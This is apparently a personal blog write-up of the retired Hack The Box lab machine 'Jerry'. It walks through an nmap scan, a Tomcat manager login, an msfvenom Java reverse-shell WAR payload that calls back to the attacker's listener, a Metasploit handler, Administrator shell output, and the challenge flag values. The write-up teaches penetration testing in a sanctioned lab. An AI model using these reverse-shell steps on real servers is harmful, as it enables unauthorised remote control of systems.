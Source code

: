Title:HTB: Jerry
Date: 09-12-2019 10:25
category:security
tags:security, boot2root, HTB
meta:security, boot2root, HTB

I started to work on [Hack The Box](www.hackthebox.eu) machine in 2018. This is a writeup for the
retired [Jerry](https://www.hackthebox.eu/home/machines/profile/144) machine.

<img class="align-left" src="/media/2019.09/jerry_1.png" alt="Jerry VM homepage" width="262">


<!-- PELICAN_END_SUMMARY -->

# Hack the Box

In 2018 I started to play with [Hack the box](www.hackthebox.eu). The principle
is similar to the [vulnhub](https://www.vulnhub.com/about/) machines: You got a
VM and have to root it. The main difference is that you are connected to a VPN 
nd the machines are shared between the users. Also, there is only 20 "active" VM
at a time. At the moment there is a total of 128 VM and therefore 108 retired.
Finally, nobody is publishing Writeup before the VM is retired.

One of the Drawback is that I completely forgot to write and publish this
writeup.

The Jerry machine is Windows server. This VM is classified as a trivial one. In
fact it is a really easy one.

# Network discovery

As usual, we start with a simple network scan using nmap in order to scan the
open TCP ports: Only the port 8080 is open with an HTTP service.

    :::text
    root@kalili:~# nmap -p- 10.10.10.95 -sSV
    Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-03 17:38 CET
    Nmap scan report for 10.10.10.95
    Host is up (0.019s latency).
    Not shown: 65534 filtered ports
    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 112.41 seconds

When going to this page we see a simple Tomcat Application Manager.

![Tomcat application manager](/media/2019.09/jerry_2.png)


# Exploiting the administration interface

We generate a Java reverse shell payload using `msfvenom`:

    :::text
    root@kalili:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.14 LPORT=4444 -f war > reverse2.war

We start the handler using `metasploit`:

    :::text
    msf exploit(multi/handler) > use exploit/multi/handler 
    msf exploit(multi/handler) > show options 

    Module options (exploit/multi/handler):

      Name  Current Setting  Required  Description
      ----  ---------------  --------  -----------


    Payload options (java/jsp_shell_reverse_tcp):

      Name   Current Setting  Required  Description
      ----   ---------------  --------  -----------
      LHOST  10.10.15.14      yes       The listen address (an interface may be specified)
      LPORT  4444             yes       The listen port
      SHELL                   no        The system shell to use.


    Exploit target:

      Id  Name
      --  ----
      0   Wildcard Target

When running the War payload we got a shell as Administrator and we can start
listing the directories looking for the flags:

    :::text
    C:\apache-tomcat-7.0.88>dir c:\Users
    dir c:\Users
    Volume in drive C has no label.
    Volume Serial Number is FC2B-E489

    Directory of c:\Users

    06/18/2018  10:31 PM    <DIR>          .
    06/18/2018  10:31 PM    <DIR>          ..
    06/18/2018  10:31 PM    <DIR>          Administrator
    08/22/2013  05:39 PM    <DIR>          Public
                  0 File(s)              0 bytes
                  4 Dir(s)  27,600,285,696 bytes free

    C:\apache-tomcat-7.0.88>dir c:\Users\Administrator\Desktop\
    dir c:\Users\Administrator\Desktop\
    Volume in drive C has no label.
    Volume Serial Number is FC2B-E489

    Directory of c:\Users\Administrator\Desktop

    06/19/2018  06:09 AM    <DIR>          .
    06/19/2018  06:09 AM    <DIR>          ..
    06/19/2018  06:09 AM    <DIR>          flags
                  0 File(s)              0 bytes
                  3 Dir(s)  27,600,269,312 bytes free

    C:\apache-tomcat-7.0.88>dir c:\Users\Administrator\Desktop\flags
    dir c:\Users\Administrator\Desktop\flags
    Volume in drive C has no label.
    Volume Serial Number is FC2B-E489

As we already are administrator we can read the flag for the two level:

    :::text
    Directory of c:\Users\Administrator\Desktop\flags

    06/19/2018  06:09 AM    <DIR>          .
    06/19/2018  06:09 AM    <DIR>          ..
    06/19/2018  06:11 AM                88 2 for the price of 1.txt
                  1 File(s)             88 bytes
                  2 Dir(s)  27,600,269,312 bytes free

    C:\apache-tomcat-7.0.88>type c:\Users\Administrator\Desktop\flags\2*
    type c:\Users\Administrator\Desktop\flags\2*
    user.txt
    7004dbcef0f854e0fb401875f26ebd00

    root.txt
    04a8b36e1545a455393d067e772fe90e


